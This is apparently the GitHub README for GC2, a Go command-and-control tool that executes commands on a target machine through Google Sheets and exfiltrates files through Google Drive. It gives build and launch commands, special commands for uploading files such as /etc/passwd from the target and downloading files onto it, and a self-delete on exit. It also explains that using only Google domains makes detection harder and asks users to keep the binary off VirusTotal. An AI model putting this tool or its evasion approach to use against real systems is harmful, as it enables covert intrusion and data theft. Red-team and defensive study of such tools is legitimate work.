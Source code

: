 # GC2

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

PS: Please don't upload the compiled binary on VirusTotal :)   

# Set up

1. **Build executable**
 
    ```bash
    git clone <asdf>
    cd <asdf>
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    ![](img/sheet_permissions.png)
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    ![](img/drive_permissions.png)

4. **Start the C2**

    ```bash
    gc2-sheet --key <GCP service account credential in JSON> --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)